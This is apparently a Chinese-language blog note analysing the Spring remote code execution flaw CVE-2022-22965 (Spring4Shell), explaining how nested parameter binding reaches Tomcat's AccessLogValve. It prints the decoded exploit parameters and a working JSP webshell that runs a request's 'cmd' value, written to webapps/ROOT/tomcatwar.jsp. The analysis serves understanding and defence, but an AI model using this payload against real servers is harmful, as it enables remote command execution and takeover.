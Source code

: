 ```yaml
---
title: Spring 远程命令执行漏洞（CVE-2022-22965）
date: 2022-5-8
tags:
 - Vulnerabilities
 - 笔记
categories:
 - Vulnerabilities
---
```


### 原理

springMVC支持嵌套参数绑定。假设请求参数名为`foo.bar.baz.qux`，对应`Controller`方法入参为`Param`，则有以下的调用链：

```Java
Param.getFoo()
    Foo.getBar()
        Bar.getBaz()
            Baz.setQux() // 注意这里为set
```

Tomcat的`Valve`用于处理请求和响应，通过组合了多个`Valve`的`Pipeline`，来实现按次序对请求和响应进行一系列的处理。其中`AccessLogValve`用来记录访问日志access_log。Tomcat的`server.xml`中默认配置了`AccessLogValve`，所有部署在Tomcat中的Web应用均会执行该`Valve`，内容如下：

```XML
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```

下面列出配置中出现的几个重要属性： - directory：access_log文件输出目录。 - prefix：access_log文件名前缀。 - pattern：access_log文件内容格式。 - suffix：access_log文件名后缀。 - fileDateFormat：access_log文件名日期后缀，默认为`.yyyy-MM-dd`。

### 漏洞分析

对POC进行解码后可以得到以下5对参数：

1. pattern参数

   - 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.pattern`
   - 参数值：`%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i`

   这里利用的就是嵌套参数解析，最终得到完整的调用链为

   ```Java
   User.getClass()
       java.lang.Class.getModule()
           java.lang.Module.getClassLoader()
               org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
                   org.apache.catalina.webresources.StandardRoot.getContext()
                       org.apache.catalina.core.StandardContext.getParent()
                           org.apache.catalina.core.StandardHost.getPipeline()
                               org.apache.catalina.core.StandardPipeline.getFirst()
                                   org.apache.catalina.valves.AccessLogValve.setPattern()
   ```

   可以看到，`pattern`参数最终对应`AccessLogValve.setPattern()`，即将`AccessLogValve`的`pattern`属性设置为`%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i`，也就是access_log的文件内容格式。

   最终可以得到`AccessLogValve`输出的日志实际内容如下（已格式化）：

   ```Java
   <%
   if("j".equals(request.getParameter("pwd"))){
       java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
       int a = -1;
       byte[] b = new byte[2048];
       while((a=in.read(b))!=-1){
           out.println(new String(b));
       }
   }
   %>
   ```

   很明显，这是一个JSP webshell。这个webshell输出到了哪儿？名称是什么？能被直接访问和正常解析执行吗？我们接下来看其余的参数。

2. suffix参数

   - 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.suffix`
   - 参数值：`.jsp``

   `suffix`参数最终将`AccessLogValve.suffix`设置为`.jsp`，即access_log的文件名后缀。

3. directory参数

   - 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.directory`
   - 参数值：`webapps/ROOT`

   `directory`参数最终将`AccessLogValve.directory`设置为`webapps/ROOT`，即access_log的文件输出目录。`webapps/ROOT`目录是Tomcat Web应用根目录。部署到目录下的Web应用，可以直接通过`http://localhost:8080/`根目录访问。

4. prefix参数

   - 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.prefix`
   - 参数值：`tomcatwar`

   `prefix`参数最终将`AccessLogValve.prefix`设置为`tomcatwar`，即access_log的文件名前缀

5. fileDateFormat参数

   * 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat`
   * 参数值：空

   `fileDateFormat`参数最终将`AccessLogValve.fileDateFormat`设置为空，即access_log的文件名不包含日期。

### 总结

通过请求传入的参数，利用SpringMVC参数绑定机制，控制了Tomcat AccessLogValve的属性，让Tomcat在webapps/ROOT目录下输出定制的“访问日志” tomcatwar.jsp，该访问日志实际上为一个jsp webshell。

### 关键点

#### 1. web应用以war包部署

从java.lang.Module到org.apache.catalina.loader.ParallelWebappClassLoader是将调用链转移到tomcat，并最终利用AccessLogValve输出webshell的关键。而ParallelWebappClassLoader在Web应用以war包部署到Tomcat中时使用到。

如果是以jar包的形式运行web应用，classLoader嵌套参数会被解析为`org.springframework.boot.loader.LaunchedURLClassLoader`，而LaunchedURLClassLoader中并没有getResources方法，调用链也就断掉了。

#### 2. jdk版本 >= 1.9

在`AbstractNestablePropertyAccessor nestedPa = getNestedPropertyAccessor(nestedProperty);`调用的过程中，Spring做了一道防御：Spring使用`org.springframework.beans.CachedIntrospectionResults`缓存并返回Java Bean中可以被`BeanWrapperImpl`使用的`PropertyDescriptor`。在`CachedIntrospectionResults`第289行构造方法中

![image-20220730224959264](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220730224959.png)
当Bean的类型为`java.lang.Class`时，不返回`classLoader`和`protectionDomain`的`PropertyDescriptor`。Spring在构建嵌套参数的调用链时，会根据`CachedIntrospectionResults`缓存的`PropertyDescriptor`进行构建：

![image-20220730225039250](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220730225039.png)

不返回，也就意味着`class.classLoader...`这种嵌套参数走不通，即形如下方的调用链：

```Java
Foo.getClass()
    java.lang.Class.getClassLoader()
        BarClassLoader.getBaz()
            ......
```

这在JDK<=1.8都是有效的。但是在JDK 1.9之后，Java为了支持模块化，在`java.lang.Class`中增加了`module`属性和对应的`getModule()`方法，自然就能通过如下调用链绕过判断：

```Java
Foo.getClass()
    java.lang.Class.getModule() // 绕过
        java.lang.Module.getClassLoader()
            BarClassLoader.getBaz()
                ......
```

这就是为什么本漏洞利用条件之二，jdk>=1.9。

### 参考

[Spring 远程命令执行漏洞（CVE-2022-22965）原理分析和思考](https://paper.seebug.org/1877/)